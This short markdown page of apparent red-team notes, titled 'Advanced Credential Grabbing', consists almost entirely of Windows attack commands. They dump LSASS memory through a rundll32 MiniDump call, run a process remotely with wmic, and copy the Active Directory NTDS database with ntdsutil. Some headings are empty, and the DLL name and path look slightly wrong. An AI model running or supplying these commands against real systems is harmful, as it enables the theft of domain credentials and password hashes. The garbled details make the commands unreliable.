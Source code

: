 # Advanced Credential Grabbing



## LSASS Dump Through Comsvc.dll


`get process id of lsass`

`rundll32.exe c:\Windows\system\comsvc.dll, MiniDump 552 C:\Windows\temp\mini.dump full`


## Total Not Mimikatz Ticket Generation


## ADCS


## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/


`wmic /node: /user: /password: process call create`

`ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" qq"`
